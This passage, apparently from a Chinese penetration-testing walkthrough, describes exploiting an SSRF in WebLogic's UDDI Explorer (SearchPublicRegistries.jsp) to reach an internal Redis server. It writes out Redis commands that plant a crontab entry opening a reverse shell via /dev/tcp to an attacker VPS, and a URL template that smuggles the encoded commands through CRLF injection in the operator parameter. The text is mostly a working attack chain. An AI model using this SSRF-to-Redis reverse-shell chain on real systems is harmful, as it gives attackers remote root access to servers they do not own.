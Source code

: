 通过得到的服务器内网IP进行同网段端口探测，发现内网主机172.24.0.2开放6379端口。

![Dingtalk_20220401105613](.\image\Dingtalk_20220401105613.jpg)

随后将如下命令进行url编码。

set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/vpsIP/8888 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save

![Dingtalk_20220401111558](.\image\Dingtalk_20220401111558.jpg)

浏览器访问如下url发送攻击payload。

http://目标主机域名或IP:端口//uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://内网IP:端口/test%0D%0A%0D%0A编码后的字符串
